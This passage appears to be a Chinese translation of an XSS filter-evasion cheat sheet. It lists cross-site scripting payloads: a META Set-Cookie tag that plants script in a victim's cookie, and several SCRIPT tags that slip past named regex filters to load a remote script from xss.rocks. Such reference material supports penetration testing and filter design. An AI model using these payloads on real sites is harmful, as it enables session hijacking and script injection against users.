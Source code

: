 这种方法相当晦涩，但在一些允许 `<META` 并可用于覆盖 Cookie 的示例中。还有其他站点的示例，它们不是从数据库获取用户名，而是将用户名存储在 Cookie 中，仅对访问页面的用户显示。结合这两种场景，你可以修改受害者的 Cookie，这将作为 JavaScript 显示回给他们（你还可以用此方法注销用户、更改其用户状态、让他们以你的身份登录等）：

```html
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### 使用 HTML 引号封装的 XSS

这种攻击最初在 IE 中测试，因此效果可能因浏览器而异。对于在允许 `<SCRIPT>` 但不允许 `<SCRIPT SRC...` 的站点上执行 XSS（通过正则表达式过滤器 `/\<script\[^\>\]+src/i`），请执行以下操作：

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

如果你在允许 `<SCRIPT>` 但不允许 `\<script src...`（由于正则表达式过滤器 `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`）：

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

绕过相同过滤器的另一个 XSS：`/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`：

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

绕过相同过滤器的另一个 XSS：`/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`

通常，我们不讨论缓解技术，但阻止这个 XSS 示例的唯一方法是，如果你仍然想允许 `<SCRIPT>` 标签但不允许远程脚本，请使用状态机（当然，如果他们允许 `<SCRIPT>` 标签，还有其他方法可以绕过）：

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

最后一个绕过 `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` 的 XSS 攻击，使用反引号（再次强调，在 Firefox 中不起作用）：

```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

这是一个 XSS 示例，如果正则表达式无法捕获匹配的引号对，而是找到任何引号来不正确地终止参数字符串：

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

这个 XSS 仍然让我担心，因为在不阻止所有活动内容的情况下几乎不可能阻止：

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### URL 字符串规避
